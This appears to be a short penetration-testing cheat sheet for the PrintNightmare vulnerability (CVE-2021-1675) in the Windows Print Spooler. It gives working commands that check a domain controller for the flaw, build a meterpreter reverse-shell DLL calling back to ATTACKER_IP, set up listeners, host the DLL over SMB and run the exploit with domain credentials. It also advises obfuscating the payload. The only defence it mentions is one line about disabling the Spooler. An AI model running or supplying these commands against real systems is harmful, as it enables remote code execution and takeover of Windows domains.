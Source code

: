 - Have user account
- Have Spooler service 
# check for vulnerability

```
rpcdump.py @DC_IP | egrep 'MS-RPRN|MS-PAD'

# If the output is like the following that means system is vulnerable
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```


# Showcase 
- create a rev_shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f dll > shell.dll
```

run msfconsole or listener 
```
nc -lvnp 9001

# Metasploit
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
options
set lport PORT
set lhost ATTACKER_IP

```

- Host SMB server 

```
smbserver.py share $(pwd) -smb2support # share 

```

# running payload
```
python3 CVE-2021-1675.py DOMAIN/USER:PASSWORD@IP '\\ATTACKER_IP\SHARE\shell.dll'
```

- Obfuscate the shell.dll

# Mitigation
- Disable Spooler service 


---
Tags: #AD #printer #print_nightmare #CVE2021-1675
	Resources: [RCE_CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675) [LPE_CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) 